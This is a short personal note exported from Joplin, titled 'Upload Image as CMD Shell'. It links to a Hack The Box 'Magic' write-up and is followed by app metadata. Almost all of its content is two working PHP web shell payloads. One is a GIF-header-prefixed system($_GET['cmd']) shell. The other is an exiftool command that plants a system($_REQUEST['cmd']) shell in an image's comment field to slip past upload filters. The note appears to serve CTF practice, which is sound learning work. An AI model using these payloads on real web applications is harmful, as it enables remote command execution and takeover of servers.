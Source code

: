 Upload Image as CMD Shell

```
GIF8 <?php system($_GET['cmd']);?>
```

https://chr0x6eos.github.io/2020/08/22/htb-Magic.html 

```
exiftool -Comment='<?php echo "<pre>"; system($_REQUEST['cmd']); ?>' chronos.php.jpg
```

id: cfb5a6ee4d8d43268661b230cc45b613
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2022-05-11T16:42:57.098Z
updated_time: 2022-05-11T16:46:36.591Z
is_conflict: 0
latitude: 1.28795004
longitude: 103.85178375
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-05-11T16:42:57.098Z
user_updated_time: 2022-05-11T16:46:36.591Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
